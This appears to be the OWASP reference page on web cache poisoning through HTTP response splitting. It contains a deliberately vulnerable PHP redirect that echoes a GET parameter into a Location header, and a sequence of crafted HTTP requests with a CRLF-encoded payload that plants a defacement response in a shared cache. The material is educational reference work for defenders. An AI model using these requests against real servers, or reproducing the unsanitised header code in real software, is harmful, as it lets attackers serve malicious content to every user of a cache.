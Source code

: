 ```yaml
---

layout: col-sidebar
title: Cache Poisoning
author: Weilin Zhong, Rezos
contributors: Pshanks, KristenS, Ingo86, Achim, kingthorin
permalink: /attacks/Cache_Poisoning
tags: attack, Cache Poisoning

---
```


{% include writers.html %}

## Description

The impact of a maliciously constructed response can be magnified if it
is cached either by a web cache used by multiple users or even the
browser cache of a single user. If a response is cached in a shared web
cache, such as those commonly found in proxy servers, then all users of
that cache will continue to receive the malicious content until the
cache entry is purged. Similarly, if the response is cached in the
browser of an individual user, then that user will continue to receive
the malicious content until the cache entry is purged, although only the
user of the local browser instance will be affected.

To successfully carry out such an attack, an attacker:

- Finds the vulnerable service code, which allows them to fill the HTTP header field with many headers.
- Forces the cache server to flush its actual cache content, which we want to be cached by the servers.
- Sends a specially crafted request, which will be stored in cache.
- Sends the next request. The previously injected content stored in cache will be the response to this request.

This attack is rather difficult to carry out in a real environment. The
list of conditions is long and hard to accomplish by the attacker.
However it's easier to use this technique than [Cross-User
Defacement](Cross-User_Defacement).

A Cache Poisoning attack is possible because of [HTTP Response
Splitting](HTTP_Response_Splitting) and flaws in the web
application. It is crucial from the attacker's point of view that the
application allows for filling the header field with more than one
header using CR (Carriage Return) and LF (Line Feed) characters.

## Examples

We have found a web page, which gets its service name from the "page"
argument and then redirects (302) to this service.

e.g. `http://testsite.com/redir.php?page=http://other.testsite.com/`

And exemplary code of the redir.php:

```
rezos@dojo ~/public_html $ cat redir.php
<?php
header ("Location: " . $_GET['page']);
?>
```

Crafting appropriate request:

1. Remove page from the cache

```http
GET http://testsite.com/index.html HTTP/1.1
Pragma: no-cache
Host: testsite.com
User-Agent: Mozilla/4.7 [en] (WinNT; I)
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
image/png, */*
Accept-Encoding: gzip
Accept-Language: en
Accept-Charset: iso-8859-1,*,utf-8
```

HTTP header fields `Pragma: no-cache` and 'Cache-Control: no-cache' should 
remove the page from cache (if the page is stored in cache, obviously).

2. Using HTTP Response Splitting we force cache server to generate two responses to one request

```http
GET http://testsite.com/redir.php?site=%0d%0aContent-
Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-
Modified:%20Mon,%2027%20Oct%202009%2014:50:18%20GMT%0d%0aConte
nt-Length:%2020%0d%0aContent-
Type:%20text/html%0d%0a%0d%0a<html>deface!</html> HTTP/1.1
Host: testsite.com
User-Agent: Mozilla/4.7 [en] (WinNT; I)
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
image/png, */*
Accept-Encoding: gzip
Accept-Language: en
Accept-Charset: iso-8859-1,*,utf-8
```

We are intentionally setting the future time (in the header it's set to
27 October 2009) in the second response HTTP header "Last-Modified" to
store the response in the cache.

We may get this effect by setting the following headers:

- Last-Modified (checked byt the If-Modified-Since header)
- ETag (checked by the If-None-Match header)

3. Sending request for the page, which we want to replace in the cache of the server

```http
GET http://testsite.com/index.html HTTP/1.1
Host: testsite.com
User-Agent: Mozilla/4.7 [en] (WinNT; I)
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
image/png, */*
Accept-Encoding: gzip
Accept-Language: en
Accept-Charset: iso-8859-1,*,utf-8
```

In theory, the cache server should match the second answer from the
request #2 to the request #3. In this way we've replaced the cache
content.

The rest of the requests should be executed during one connection (if
the cache server doesn't require a more sophisticated method to be
used), possibly immediately one after another.

It may appear problematic to use this attack as a universal technique for
cache poisoning. It's due to cache server's different connection model
and request processing implementations. What does it mean? That for
example effective method to poison Apache 2.x cache with mod_proxy and
mod_cache modules won't work with Squid.

A different problem is the length of the URI, which sometime makes it
impossible to put the necessary response header, which would next be
matched to the request for the poisoned page.

The request examples used are from the Amit Klein paper referenced below, which were modified on the
needs of the article.

More information can be found in this document, which focuses on these
kinds of attacks [by Amit Klein, Director of Security and Research](https://packetstormsecurity.com/files/32815/Divide-and-Conquer-HTTP-Response-Splitting-Whitepaper.html)
